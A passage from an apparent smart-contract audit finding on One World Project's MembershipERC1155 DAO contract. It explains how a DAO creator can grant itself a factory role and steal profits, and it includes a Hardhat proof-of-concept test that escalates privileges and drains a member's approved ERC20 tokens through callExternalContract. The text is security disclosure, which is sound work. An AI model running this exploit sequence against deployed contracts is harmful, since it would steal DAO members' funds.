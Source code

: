 ```solidity
if (_totalSupply > 0) {
    totalProfit[currency] += (amount * ACCURACY) / _totalSupply;
    IERC20(currency).safeTransferFrom(msg.sender, address(this), amount);
    emit Profit(amount);
} else {
    IERC20(currency).safeTransferFrom(msg.sender, creator, amount); // Redirect profit to creator if no supply
}
```

It is also prescient to note that this issue exists in isolation as a centralization risk of the One World Project owner itself, as detailed in a separate finding, who controls the `MembershipFactory` contract and thus all DAOs via [`MembershipFactory::callExternalContract`](https://github.com/OneWpOrg/audit-2024-10-oneworld/blob/416630e46ea6f0e9bd9bdd0aea6a48119d0b515a/contracts/dao/MembershipFactory.sol#L155-L163).

**Impact:** The creator of a DAO can escalate their privileges to have unilateral control and steal profits from its members, as well as abusing any profit token approvals to the contract. All of the above is also possible for the One World Project owner, who has control of the factory and thus all DAOs created by it.

**Proof of Concept:** The following test can be added to `describe("ERC1155 and AccessControl Interface Support")` in `MembershipERC1155.test.ts`:
```javascript
it("can give OWP_FACTORY_ROLE to an address and abuse priviliges", async function () {
    const [factory, creator, user] = await ethers.getSigners();
    const membership = await MembershipERC1155.connect(factory).deploy();
    await membership.deployed();
    await membership.initialize("TestToken", "TST", tokenURI, creator.address);

    await membership.connect(creator).grantRole(await membership.OWP_FACTORY_ROLE(), creator.address);
    expect(await membership.hasRole(await membership.OWP_FACTORY_ROLE(), creator.address)).to.be.true;

    // creator can mint and burn at will
    await membership.connect(creator).mint(user.address, 1, 100);
    await membership.connect(creator).burn(user.address, 1, 50);

    await testERC20.mint(user.address, ethers.utils.parseEther("1"));
    await testERC20.connect(user).approve(membership.address, ethers.utils.parseEther("1"));

    const creatorBalanceBefore = await testERC20.balanceOf(creator.address);

    // creator can abuse approvals
    const data = testERC20.interface.encodeFunctionData("transferFrom", [user.address, creator.address, ethers.utils.parseEther("1")]);
    await membership.connect(creator).callExternalContract(testERC20.address, data);

    const creatorBalanceAfter = await testERC20.balanceOf(creator.address);
    expect(creatorBalanceAfter.sub(creatorBalanceBefore)).to.equal(ethers.utils.parseEther("1"));
});
```
